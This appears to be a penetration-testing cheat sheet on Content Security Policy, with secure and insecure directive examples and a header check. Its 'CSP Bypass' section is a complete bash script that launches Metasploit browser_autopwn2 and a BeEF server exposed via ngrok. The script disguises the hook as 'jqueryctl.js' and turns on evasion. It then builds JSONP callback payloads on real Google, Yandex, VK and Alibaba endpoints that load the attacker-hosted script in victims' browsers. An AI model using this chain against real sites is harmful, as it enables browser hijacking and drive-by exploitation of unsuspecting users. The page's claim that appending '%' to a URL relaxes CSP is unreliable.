 # Content Security Policy

## Check List

* [ ] Review the Content-Security-Policy header or meta element to identify misconfigurations.

## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
### Content Security Policy
{% endstep %}

{% step %}
Inspect HTTP response headers of target
{% endstep %}

{% step %}
Observe the Content-Security-Policy header includes script-src 'unsafe-inline'
{% endstep %}

{% step %}
This allows inline scripts execution, weakening CSP protections against Cross-Site Scripting (XSS)
{% endstep %}

{% step %}
Although no direct exploit is shown, the presence of `unsafe-inline` increases risk of script injection attacks
{% endstep %}

{% step %}
Best practice Avoid `unsafe-inline` in `script-src` to reduce XSS attack surface
{% endstep %}
{% endstepper %}

{% stepper %}
{% step %}
Appending % or %" to the URL endpoint causes the browser to misinterpret or relax CSP enforcement
{% endstep %}

{% step %}
By inspecting and editing the HTML in the dev tools, an attacker can inject inline JavaScript and use this cheat sheet despite a strict script-src policy, leading to a bypass of the CSP
{% endstep %}
{% endstepper %}

### CSP Header

#### [cURL](https://curl.se/)

```bash
curl -I $WEBSITE | grep "content-security-policy"
```

### CSP Parameters

{% hint style="info" %}
default-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: default-src 'self'
```

{% hint style="info" %}
default-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: default-src *
```

{% hint style="info" %}
script-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: script-src 'self' 'nonce-random123'
```

{% hint style="info" %}
script-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: script-src 'unsafe-inline'
```

{% hint style="info" %}
style-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: style-src 'self' 'sha256-abc123'
```

{% hint style="info" %}
style-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: style-src 'unsafe-inline'
```

{% hint style="info" %}
img-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: img-src 'self' https://cdn.example.com
```

{% hint style="info" %}
img-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: img-src *
```

{% hint style="info" %}
connect-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: connect-src 'self' https://api.example.com
```

{% hint style="info" %}
connect-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: connect-src *
```

{% hint style="info" %}
font-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: font-src 'self' https://fonts.gstatic.com
```

{% hint style="info" %}
font-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: font-src *
```

{% hint style="info" %}
object-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: object-src 'none'
```

{% hint style="info" %}
object-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: object-src *
```

{% hint style="info" %}
frame-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-src 'self' https://trusted.example.com
```

{% hint style="info" %}
frame-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-src *
```

{% hint style="info" %}
frame-ancestors (Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-ancestors 'none'
```

{% hint style="info" %}
frame-ancestors (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-ancestors *
```

{% hint style="info" %}
sandbox (Secure)
{% endhint %}

```bash
Content-Security-Policy: sandbox
```

{% hint style="info" %}
sandbox (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: sandbox allow-scripts allow-forms
```

### CSP Bypass

#### [BeEF ](https://beefproject.com/)& JSONP

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beef-csp-bypass.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Start Metasploit
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y; use auxiliary/server/browser_autopwn2; set LHOST $WAN; set URIPATH /pwn; run -z" &>/dev/null &
sleep 1

# Start ngrok and extract public URL
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi

printf "${GREEN}[*] BeEF configuration updated...${RESET}\n"

# Start BeEF
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Inject payload into JSONP callback
inject_payload()
{
    local url="$1"
    local js_payload="var script=document.createElement('script');script.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(script);"
    local encoded_callback=$(echo -n "$js_payload" | jq -sRr @uri)
    local test_url="${url/JSONP/$encoded_callback}"
    printf "%b\n" "\n${YELLOW}[*] Payload: <script src=\"${test_url}\"></script> ${RESET}\n"
}

# Target APIs for JSONP exploitation
targets=(
    "https://api.mixpanel.com/track/?callback=JSONP"
    "https://www.google.com/complete/search?client=chrome&q=hello&callback=JSONP"
    "https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=JSONP"
    "https://accounts.google.com/o/oauth2/revoke?callback=JSONP"
    "https://api-metrika.yandex.ru/management/v1/counter/1/operation/1?callback=JSONP"
    "https://api.vk.com/method/wall.get?callback=JSONP"
    "https://mango.buzzfeed.com/polls/service/editorial/post?poll_id=121996521&result_id=1&callback=JSONP"
    "https://ug.alibaba.com/api/ship/read?callback=JSONP"
)

# Run the attack
for target in "${targets[@]}"; do
    inject_payload "$target"
done

printf "\n"
printf "%b[*] BeEF Panel: https://${NGHOST}/ui/panel%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF USER: unk9vvn%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF PASS: 00980098%b\n" "$CYAN" "$RESET"
printf "%bBeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute%b\n" "$GREEN" "$RESET"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beef-csp-bypass.sh;sudo ./beef-csp-bypass.sh
```

